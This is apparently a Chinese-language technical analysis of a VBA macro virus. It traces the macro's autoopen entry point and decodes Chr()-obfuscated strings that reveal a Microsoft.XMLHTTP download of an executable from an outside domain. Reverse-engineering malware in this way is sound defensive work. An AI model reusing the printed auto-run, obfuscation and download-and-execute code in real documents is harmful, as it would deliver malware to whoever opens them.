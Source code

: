目前遇到的纯用宏感染的病毒家族APMP(感染性)、lokcy(勒索者)、ATP(钓鱼邮件)。


##### (1) 调试环境

- 操作系统：Windows 7
- 监控与调试工具：WireShark、火绒剑、文档自带宏编译器
- 样本HASH值：b5ee8925742637a8484f6e1cb08a1c989cb4a8f9e66a8179c929dd789c07c06d

##### (2) 调试过程

样本是从某平台上看到的文章《一款流行的VBA宏病毒技术分析》根据IOC搜索出来的

- 思路：

程序主函数->调用的对象->网络行为->文件行为

- 主函数

ThisDocument 模块下的 autoopen() 函数。
```
主函数
Sub autoopen()

' 传了个数值
VEeve (8.2)

End Sub

' 调用函数
Sub VEeve(FFFFF As Long)

' 调用病毒主函数
LWS8UPvw1QGKq

End Sub

```

- 病毒主函数代码分析

进入LWS8UPvw1QGKq函数，F8单步跟踪。

- - **网络行为主要实现**

通过关键函数调试，使用Debug.Print输出的加密函数内容。

```
' 加密字符串 ht=tp:/;/chateau-d<es-iles.=com/<4tf32018/4/3 11:40:07 : WScript.Shell
Nrh1INh1S5hGed = "h" & Chr(116) & Chr(61) & "t" & Chr(112) & Chr(58) & Chr(47) & Chr(59) & Chr(47) & Chr(99) & Chr(104) & Chr(97) & "t" & Chr(101) & Chr(97) & Chr(117) & Chr(45) & Chr(100) & Chr(60) & Chr(101) & Chr(115) & Chr(45) & Chr(105) & Chr(108) & "e" & Chr(115) & Chr(46) & Chr(61) & Chr(99) & Chr(111) & Chr(109) & Chr(47) & Chr(60) & Chr(52) & Chr(116) & Chr(102) & Chr(51) & Chr(51) & Chr(119) & Chr(47) & Chr(60) & Chr(119) & "4" & Chr(116) & Chr(52) & Chr(53) & Chr(51) & Chr(46) & Chr(59) & Chr(101) & Chr(61) & Chr(120) & Chr(101)

Debug.Print Now & " : " & Nrh1INh1S5hGed  '输出加密字符串内容

' 进入解密函数，创建了对象 Microsoft.XMLHTTP
Set LhZitls7wPn = lLJrFk6pKsSYJ("M" & "i" & Chr(60) & Chr(99) & Chr(114) & Chr(111) & Chr(61) & "s" & Chr(111) & "f" & Chr(116) & ";" & Chr(46) & "X" & Chr(77) & Chr(60) & "L" & Chr(59) & Chr(72) & "T" & Chr(61) & Chr(84) & "P")

' 解密字符串http://chateau-des-iles.com/4tf33w/w4t453.exe

Nrh1INh1S5hGed = Replace(Replace(Replace(Nrh1INh1S5hGed, Chr(60), ""), Chr(61), ""), Chr(59), "")

'  下载文件
'  LhZitls7wPn = Microsoft.XMLHTTP
'  LhZitls7wPn.Open GET "http://chateau-des-iles.com/4tf33w/w4t453.exe"
```